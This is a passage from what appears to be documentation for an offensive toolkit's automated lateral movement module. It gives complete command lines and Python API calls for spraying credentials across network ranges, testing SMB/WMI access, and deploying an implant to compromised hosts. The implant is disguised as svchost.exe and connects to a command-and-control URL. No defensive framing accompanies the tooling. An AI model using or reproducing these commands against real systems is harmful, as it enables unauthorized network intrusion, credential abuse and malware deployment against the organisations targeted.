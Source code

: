 ```python
print(f"Computer: {info['computer']}")
```

### 2. Automated Lateral Movement (`lateral_movement/automated_lateral.py`)

Comprehensive automated lateral movement scanner with credential spraying and mass deployment.

**Features:**
- Network target discovery from CIDR ranges
- Credential spraying across multiple targets
- Automated SMB/WMI access testing
- Implant deployment to compromised hosts
- Credential success rate tracking
- Comprehensive reporting

**Usage:**

```bash
# Spray single credential
python lateral_movement/automated_lateral.py --targets 192.168.1.0/24 \
  -u admin -p Password123 -d CORP

# Spray multiple credentials
python lateral_movement/automated_lateral.py --targets 192.168.1.0/24 \
  -u admin -p Password123 \
  -u user -p Password456 \
  -d CORP

# Use credential file (format: username:password:domain)
python lateral_movement/automated_lateral.py --targets 192.168.1.0/24 \
  --cred-file creds.txt

# Deploy implants to compromised hosts
python lateral_movement/automated_lateral.py --targets 192.168.1.0/24 \
  --cred-file creds.txt \
  --deploy \
  --implant C:\implant.exe \
  --remote-path C$\temp\svchost.exe \
  --c2-url http://10.10.10.10:8443

# Export results
python lateral_movement/automated_lateral.py --targets 192.168.1.0/24 \
  --cred-file creds.txt \
  --export lateral_results.json
```

**Python API:**

```python
from lateral_movement.automated_lateral import AutomatedLateralMovement

# Initialize scanner
scanner = AutomatedLateralMovement(max_workers=10, domain='CORP')

# Add credentials
scanner.add_credential('admin', 'Password123', 'CORP')
scanner.add_credential('user', 'Password456', 'CORP')
scanner.add_credential('backup', 'Backup2024!', 'CORP')

# Add targets
scanner.add_target_range('192.168.1.0/24')
scanner.add_target_range('10.10.10.0/24')

# Or add individual targets
scanner.add_target('192.168.1.100', hostname='DC01')
```
